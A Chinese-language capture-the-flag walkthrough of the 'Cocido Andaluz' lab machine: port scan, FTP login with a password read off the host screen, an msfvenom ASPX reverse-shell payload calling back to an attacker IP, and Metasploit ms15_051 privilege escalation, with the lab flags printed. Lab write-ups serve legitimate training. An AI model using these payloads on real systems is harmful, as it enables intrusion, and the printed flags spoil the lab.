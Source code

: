 # Cocido Andaluz

2025.03.16 https://thehackerslabs.com/cocido-andaluz/

## Ip

192.168.5.40

## Scan

```
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown
49158/tcp open  unknown
```

ftp 不允许匿名登陆，guest 用户不能访问 smb。

直接看 80 web 主页没信息，大字典扫描出目录 http://192.168.5.40/aspnet_client/ 但是里面什么都没扫到，这里行不通。

在看 ftp 能不能找到用户名进行爆破，主机屏幕上显示了一个 info 用户，密码 PolniyPizdec0211 。

进入 ftp 发现是 web 中显示的目录，这里直接生成 aspx 反弹 shell：

```
msfvenom -p windows/shell_reverse_tcp lhost=192.168.5.3 lport=8888 -f aspx -o shell.aspx
```

得到反弹的 shell，查看下用户:

```
c:\windows\system32\inetsrv>whoami
nt authority\servicio de red
```

有 SeImpersonatePrivilege 权限。

先读取到了 user flag：

```
c:\Users>type c:\users\info\user.txt
hdgrfvvf8s7dre5w7vg23rfewf
```

使用 msf 中的 local_exploit_suggester 中的 exploit/windows/local/ms15_051_client_copy_image 进行提权，拿到最终 root 权限：

```
type c:\\Users\\Administrador\\Desktop\\root.txt
hdgrfvv45478fhrfcdnc7vg2fw44f
```
